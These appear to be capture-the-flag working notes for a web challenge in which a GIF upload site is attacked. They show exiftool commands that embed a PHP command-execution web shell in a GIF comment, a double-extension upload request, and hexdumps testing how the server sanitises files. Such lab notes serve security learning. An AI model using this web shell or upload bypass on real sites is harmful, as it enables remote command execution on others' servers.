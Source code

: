 # Unsanitary

## Web: 500 Points

## Challenge

My friend thinks his GIF file sharing website is secure. It's still under construction and needs a lot of work, but he wants to know if it's vulnerable. Can you hack into his website?

[ [Start](http://challenges.laptophackingcoffee.org:6464/) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

https://www.youtube.com/watch?v=nNB9XlRfvzw
https://superuser.com/questions/556315/gif-image-exif-tags
```
exiftool -comment="This is a comment!" Sample.gif
```

```
$ exiftool -comment="<h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cat-shell.gif 

1 image files updated
```

http://challenges.laptophackingcoffee.org:6464/images/cat-shell.gif.php
```
Warning: Unexpected character in input: '' (ASCII=3) state=0 in /var/www/app/images/cat-shell.gif.php on line 143

Parse error: syntax error, unexpected '=' in /var/www/app/images/cat-shell.gif.php on line 143
```

exiftool:
```
$ exiftool untitled.gif.php 
ExifTool Version Number         : 11.88
File Name                       : untitled.gif.php
Directory                       : .
File Size                       : 189 bytes
File Modification Date/Time     : 2020:07:14 22:44:01-06:00
File Access Date/Time           : 2020:07:14 22:47:34-06:00
File Inode Change Date/Time     : 2020:07:14 22:47:16-06:00
File Permissions                : rw-rw-r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 1
Image Height                    : 1
Has Color Map                   : Yes
Color Resolution Depth          : 1
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : <h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>
Image Size                      : 1x1
Megapixels                      : 0.000001
```

burpsuite
```
POST / HTTP/1.1
Host: challenges.laptophackingcoffee.org:6464
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenges.laptophackingcoffee.org:6464/
Content-Type: multipart/form-data; boundary=---------------------------36969556719905097901151866452
Content-Length: 424
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------36969556719905097901151866452
Content-Disposition: form-data; name="upfile"; filename="untitled.gif.php"
Content-Type: application/x-php

GIF89a
```

https://github.com/tennc/webshell/blob/master/php/gif.php
https://github.com/tennc/webshell/blob/master/php/gif.php

```
$ exiftool -comment="<h1>hello world<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cat-shell.gif 

1 image files updated
```

isolate what the website is checking

test.gif (empty file)
```
Image type not supported, GIF files only!
```

file with GIF87a, with no other content. test.txt:
```
Image type not supported, GIF files only!
```

file with GIF87a, with no other content. test.gif:
```
Image type not supported, GIF files only!
```

2x2 gif made with GIMP:
```
Path: images/test.gif, image upload successful!
```

Visit url and it displays the image: 

http://challenges.laptophackingcoffee.org:6464/images/test.gif


2x2 gif with .php extension
```
Path: images/test.gif.php, image upload successful!
```

http://challenges.laptophackingcoffee.org:6464/images/test.gif.php
```
GIF87a����,;
```


```
$ cat test.gif.php
GIF89a����,
           ;<?phpinfo();?>
```


Before uploading to LHC
```
z@z-pc:~/Documents/playgrounds/LaptopHackingCoffee/Web/Unsanitary$ hexdump -C test3.php
00000000  47 49 46 38 39 61 1e 00  1e 00 80 00 00 ff ff ff  |GIF89a..........|
00000010  ff ff ff 21 fe 11 43 72  65 61 74 65 64 20 77 69  |...!..Created wi|
00000020  74 68 20 47 49 4d 50 00  2c 00 00 00 00 1e 00 1e  |th GIMP.,.......|
00000030  00 00 02 1c 84 8f a9 cb  ed 0f a3 9c b4 da 8b b3  |................|
00000040  de bc fb 0f 86 e2 48 96  e6 89 a6 ea ca b6 6b 01  |......H.......k.|
00000050  00 3b   
```

After downloading from LHC:
http://challenges.laptophackingcoffee.org:6464/images/test3.php
```
z@z-pc:~/Documents/playgrounds/LaptopHackingCoffee/Web/Unsanitary$ hexdump -C test3.php.1 
00000000  47 49 46 38 37 61 1e 00  1e 00 80 00 00 ff ff ff  |GIF87a..........|
00000010  ff ff ff 2c 00 00 00 00  1e 00 1e 00 00 02 1c 84  |...,............|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 6b 01 00 3b           |.H.......k..;|
0000003d
```
The website strips the comment and converts the file from version 89a to 87a. However, if there is no comment then the website does not convert the file.

I think the website is also checking the image size:

https://www.php.net/manual/en/function.getimagesize.php

A modified version of test5.gif. It includes a `<?` in the file.
```
z@z-pc:~/Documents/playgrounds/LaptopHackingCoffee/Web/Unsanitary$ hexdump -C test5.gif.php
00000000  47 49 46 38 39 61 08 00  08 00 a1 01 3c 3f 00 00  |GIF89a......<?..|
00000010  ff ff ff ff ff ff ff ff  ff 21 f9 04 01 0a 00 02  |.........!......|
00000020  00 2c 00 00 00 00 08 00  08 00 00 02 0c 44 8c 71  |.,...........D.q|
00000030  8b 99 cc dc 82 8d 2a 09  0a 00 3b 0a              |......*...;.|
0000003c
```

Web removed the invalid `<?` characters and some of `0xff` bytes.
```
z@z-pc:~/Documents/playgrounds/LaptopHackingCoffee/Web/Unsanitary$ hexdump -C test5.gif.php.1 
00000000  47 49 46 38 39 61 08 00  08 00 80 00 00 3f 00 00  |GIF89a.......?..|
00000010  ff ff ff 21 f9 04 01 00  00 02 00 2c 00 00 00 00  |...!.......,....|
00000020  08 00 08 00 00 02 0c 44  8c 71 8b 99 cc dc 82 8d  |.......D.q......|
00000030  2a 09 0a 00 3b                                    |*...;|
00000035
```

https://resources.infosecinstitute.com/null-byte-injection-php/#gref

from itsqrank in LHC channel:
```
Can anyone help point me in the right direction on Unsanitary? I've been able to upload PHP files, however, it strips my PHP out when I make it with gifsicle. So I was researching why it would do that and I found another write up where a guy was having the same issue, he had a sample gif and it executes code fine. He wrote a python script to compare files to find out to fit his code in. Is that really the best way to accomplish this one? I don't want to learn Python right at this moment lol.
```